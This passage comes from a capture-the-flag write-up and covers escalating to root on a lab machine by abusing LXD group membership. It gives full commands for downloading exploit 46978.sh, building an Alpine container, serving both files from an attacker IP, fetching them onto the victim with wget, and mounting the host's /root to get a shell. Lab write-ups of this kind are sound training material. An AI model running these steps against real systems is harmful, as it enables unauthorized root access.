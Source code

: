 Now that I know that the user **orestis** belongs to the **LXD** group, I can download the **S4vitar** exploit to **Escalate Privileges**. It is very simple to exploit, you must follow the instructions detailed in the exploit, first I will download the exploit with `searchsploit`, then download the **build-alpine** container, build the container and modify the script (<ins>recommended by the creator</ins>). Once all the necessary steps are done, I just need to transfer to the target machine, both the **exploit** and the **container**, give execution permissions to the malicious script and execute it by passing with the **-f** parameter the container. What the script does is to deploy the container and through **mounts**, it links the **/root** directory of the host in the **/mnt** directory of the container, and then automatically gives you a **shell** inside the container. I can now search and see the content of the last flag.

> **Attacker Machine**:

```bash
searchsploit lxd
searchsploit -m linux/local/46978.sh
mv 46978.sh lxd_exploit.sh
# Tips: > dos2unix lxd_exploit.sh

cat !$
# --> delete: lxd init --auto

sudo su
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget http://10.10.14.84/lxd_exploit.sh
wget http://10.10.14.84/alpine-v3.14-x86_64-20210711_1303.tar.gz
nano lxd_exploit.sh
cat lxd_exploit.sh | grep 'lxc image import'
chmod +x lxd_exploit.sh
./lxd_exploit.sh alpine-v3.14-x86_64-20210711_1303.tar.gz
./lxd_exploit.sh -f alpine-v3.14-x86_64-20210711_1303.tar.gz

whoami
cd /mnt/root/root
```

<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
